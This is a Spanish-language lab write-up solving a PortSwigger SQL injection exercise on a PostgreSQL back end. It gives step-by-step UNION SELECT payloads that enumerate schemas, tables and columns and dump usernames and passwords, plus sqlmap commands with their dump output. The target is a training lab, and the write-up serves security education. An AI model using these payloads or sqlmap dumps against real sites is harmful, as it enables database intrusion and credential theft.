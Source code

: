 ```yaml
---
title: "SQL injection attack, listing the database contents on non-Oracle databases"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-15 12:35:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, listing the database contents on non-Oracle databases
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categorías` de `productos`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que debemos usar un `ataque UNION` para `recuperar datos` de otras tablas. La `aplicación` tiene una `función` de `inicio de sesión`, y la `base` de `datos` contiene una `tabla` que almacena nombres de `usuario` y `contraseñas`. Hay que `determinar` el `nombre` de esta `tabla` y las `columnas` que contiene, y luego `recuperar` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los usuarios. Para resolver el laboratorio, hay que `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al acceder a la `web` nos sale esto

![](/assets/img/SQLI-Lab-5/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le añadimos una `'` a `category`

![](/assets/img/SQLI-Lab-5/image_2.png)

Si enviamos la `petición` nos dará un `Internal Server Error` debido a que hemos logrado interferir con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-5/image_3.png)

Si usamos este `payload`, ya habremos solucionado el error que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-5/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-5/image_5.png)

Sin embargo, si ponemos un `número` de `columnas` que no `existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-5/image_6.png)

A continuación, usamos `union select` para señalar ambos campos, podemos descartar que la `base` de `datos` sea `Oracle` porque no nos da un error, si nos diera un error probablemente sería una base de datos `Oracle` y debería añadirle `from dual` al final

```
/filter?category=Lifestyle'+union+select+null,null--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`, es importante inspeccionar la web correctamente, en este caso el resultado de la `SQLI` está en la parte inferior de la web

```
/filter?category=Lifestyle'+union+select+version(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_7.png)

`Listamos` las `bases` de `datos`, la expresión `string_agg(columnName, ',')` es como group_concat de `MySQL`

```
/filter?category=Lifestyle'+union+select+null,string_agg(datname, ',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-5/image_8.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+current_database(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_9.png)

`Listamos` los `esquemas` de la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+null,string_agg(schema_name,',')+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-5/image_10.png)

Para `listar` las `tablas` del esquema `public`

```
/filter?category=Lifestyle'+union+select+null,string_agg(table_name,',')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_11.png)

Si queremos visualizarlo de mejor forma podemos usar

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(table_name), E'\n')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_12.png)

`Enumeramos` las `columnas` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(column_name),E'\n')+from+information_schema.columns+where+table_name='users_nlnyoc'--+-+
```

![](/assets/img/SQLI-Lab-5/image_13.png)

`Obtenemos` el `contenido` de la columna `username_vxtjej` y `password_siipou` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle%27+union+select+username_vxtjej,password_siipou+from+users_nlnyoc--+-+
```

![](/assets/img/SQLI-Lab-5/image_14.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users_jsqujl |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users_jsqujl --columns --batch --threads 2  
Database: public
Table: users_jsqujl
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password_vvhgak | varchar |
| username_gwyaka | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users_jsqujl -C password_vvhgak,username_gwyaka --dump --batch --threads 2 
Database: public
Table: users_jsqujl
[3 entries]
+----------------------+-----------------+
| password_vvhgak      | username_gwyaka |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` como el usuario `administrador`

![](/assets/img/SQLI-Lab-5/image_15.png)
